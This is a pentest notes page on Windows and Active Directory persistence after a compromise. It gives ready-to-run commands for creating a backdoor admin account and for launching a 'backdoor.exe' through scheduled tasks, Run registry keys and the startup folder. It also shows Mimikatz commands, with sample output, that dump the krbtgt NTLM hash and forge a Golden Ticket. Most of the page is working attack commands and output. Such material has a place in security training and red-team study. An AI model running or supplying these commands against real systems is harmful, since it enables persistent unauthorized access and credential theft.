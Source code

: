 ```yaml
---
description: >-
  When a computer or even the entire domain is compromised, how do you keep it
  that way?                  (note: not normally required in a pentest)
---
```


# Persistence

## Local Computer

With administrative privileges on a computer, you can do anything. If we want to keep control of this computer, even after someone's password changes, for example, we can create some "backdoors".

One simple way is to **create a new local account** on the computer and give it the `BUILTIN\Administrators` group:

```powershell
net user $USERNAME $PASSWORD /add
net localgroup Administrators $USERNAME /add
```

This later allows you to log in as that user and dump cached creds like [#post-exploitation-mimikatz](local-privilege-escalation.md#post-exploitation-mimikatz "mention")

Another method is creating a scheduled task that executes hourly or in another period and runs a program that gives you a reverse shell, for example.&#x20;

<pre class="language-powershell"><code class="lang-powershell"># Run every 1 hour
<strong>schtasks /create /sc HOURLY /mo 1 /tn "Cleanup" /tr "C:\Windows\Tasks\backdoor.exe"
</strong># Run on startup, as the SYSTEM user
<strong>schtasks /create /sc ONSTART /tn "Cleanup" /ru "SYSTEM" /tr "C:\Windows\Tasks\backdoor.exe"
</strong></code></pre>

Then another classic is Autoruns, programs that register themselves to start on startup. You can place binaries or scripts in the following `shell:startup` directory, and they will execute on startup:

```powershell
%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
```

The Windows Registry can also be a great sea of abusable keys that automatically run programs. The `Software\Microsoft\Windows\CurrentVersion\Run` path for `HKCU` and `HKLM` contains a key for every program that should start at startup, for only the current user or all users:

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"># Run for the current user
<strong>reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Cleanup" /t REG_SZ /d "C:\Windows\Tasks\backdoor.exe" /f
</strong># Run for all users
<strong>reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Cleanup" /t REG_SZ /d "C:\Windows\Tasks\backdoor.exe" /f
</strong></code></pre>

## Active Directory

When an entire active directory is compromised, a lot of integrity is lost. Any secrets can be read out, and later used to log in as any user after your access has been revoked. Here are some well-known attacks that real threat actors use to persist after a breach if all the required secrets are not rotated.&#x20;

### Golden Ticket

We've seen [#forge-silver-tickets](lateral-movement.md#forge-silver-tickets "mention") where we have the hash of an SPN and can forge a Kerberos ticket as any user for that service. Taking this one step further is possible when we compromise the **NTLM hash of the** `krbtgt` **user**. Because TGTs are encrypted with this secret, we can forge any ticket in the future if we know it.&#x20;

On the Domain Controller, we will ask the LSA server for all known credentials using Mimikatz:

<pre class="language-javascript"><code class="lang-javascript"><strong>mimikatz # privilege::debug
</strong>Privilege '20' OK

<strong>mimikatz # lsadump::lsa /patch
</strong>Domain : $DOMAIN / S-1-5-21-5386719015-7638691639-2457330780

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 8a772f3282654f2f9e165e19926a32a4

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
<strong>NTLM : 752da57f6d5047d6a251359025bd97e1
</strong>...
</code></pre>

This finds the NTLM hash for the `krbtgt` user which can now be used to forge any ticket. When the time comes after vulnerabilities have been patched, the attacker can still get a new valid session.

We provide the domain and its SID (found using `whoami /user`), then choose a user with a lot of privileges like a Domain Admin, and give the `krbtgt` NTLM hash:

<pre class="language-javascript" data-overflow="wrap"><code class="lang-javascript"><strong>mimikatz # kerberos::purge
</strong>Ticket(s) purge for current session is OK

<strong>mimikatz # kerberos::golden /ptt /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /user:jen /krbtgt:752da57f6d5047d6a251359025bd97e1
</strong>User      : jen
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500    
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 9/16/2022 2:15:57 AM ; 9/13/2032 2:15:57 AM ; 9/13/2032 2:15:57 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF665F1B800
</code></pre>

This injects it into our current session, and the newly spawned `cmd.exe` will allow you to do anything on the domain through Kerberos, like [#psexec-smb](lateral-movement.md#psexec-smb "mention") with a hostname instead of an IP to get a shell.&#x20;
